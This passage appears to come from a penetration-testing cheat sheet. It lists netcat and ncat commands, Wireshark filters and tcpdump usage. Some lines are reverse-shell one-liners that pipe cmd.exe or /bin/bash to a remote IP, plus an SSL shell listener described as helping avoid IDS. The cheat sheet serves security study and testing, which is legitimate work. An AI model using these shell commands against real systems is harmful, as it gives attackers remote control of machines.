         or
        
        `nc.exe -nv <Remote IP> <Remote Port> -e cmd.exe`

    -   Create a reverse shell with Ncat using bash on Linux  
        `nc -nv $ip 4444 -e /bin/bash`
        
    -   Netcat for Banner Grabbing:
    
        `echo "" | nc -nv -w1 <IP Address> <Ports>`

-   Ncat - Netcat for Nmap project which provides more security avoid
    IDS

    -   Reverse shell from windows using cmd.exe using ssl  
        `ncat --exec cmd.exe --allow $ip -vnl 4444 --ssl`

    -   Listen on port 4444 using ssl  
        `ncat -v $ip 4444 --ssl`

-   Wireshark
    -   Show only SMTP (port 25) and ICMP traffic:
    
        `tcp.port eq 25 or icmp`
        
    -   Show only traffic in the LAN (192.168.x.x), between workstations and servers -- no Internet:
        
        `ip.src==192.168.0.0/16 and ip.dst==192.168.0.0/16`
        
    -   Filter by a protocol ( e.g. SIP ) and filter out unwanted IPs:
        
        `ip.src != xxx.xxx.xxx.xxx && ip.dst != xxx.xxx.xxx.xxx && sip`
        
    -   Some commands are equal
        
        `ip.addr == xxx.xxx.xxx.xxx`
        
         Equals
        
        `ip.src == xxx.xxx.xxx.xxx or ip.dst == xxx.xxx.xxx.xxx `

        ` ip.addr != xxx.xxx.xxx.xxx`
        
         Equals
        
        `ip.src != xxx.xxx.xxx.xxx or ip.dst != xxx.xxx.xxx.xxx`

-   Tcpdump

    -   Display a pcap file  
       `tcpdump -r passwordz.pcap`

    -   Display ips and filter and sort  
        `tcpdump -n -r passwordz.pcap | awk -F" " '{print $3}' | sort -u | head`

    -   Grab a packet capture on port 80  
        `tcpdump tcp port 80 -w output.pcap -i eth0`

    -   Check for ACK or PSH flag set in a TCP packet  
        `tcpdump -A -n 'tcp[13] = 24' -r passwordz.pcap`

-   IPTables 
